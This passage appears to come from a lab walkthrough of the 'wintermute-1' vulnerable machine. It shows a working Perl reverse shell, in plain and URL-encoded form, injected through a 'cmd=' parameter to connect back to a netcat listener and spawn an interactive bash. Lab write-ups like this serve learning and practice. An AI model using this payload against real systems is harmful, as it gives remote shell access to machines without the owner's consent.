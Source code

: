 ![38076c7b.png](/assets/images/posts/wintermute-1-walkthrough/38076c7b.png)

See what I mean? I can probably make use of this to run a reverse shell back.

Anyway, I ran a Perl reverse shell back to my `nc` listener at port 1234. The Perl reverse shell is _urlencoded_ to prevent any complications.

_Before urlencoding_

```perl
perl -e 'use Socket;$i="192.168.30.128";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

_After urlencoding_

```
perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.30.128%22%3B%24p%3D1234%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fbash%20-i%22%29%3B%7D%3B%27
```

Copy and paste the _urlencoded_ Perl reverse shell after `cmd=`. And &hellip; a shell at last.

![3da260e0.png](/assets/images/posts/wintermute-1-walkthrough/3da260e0.png)
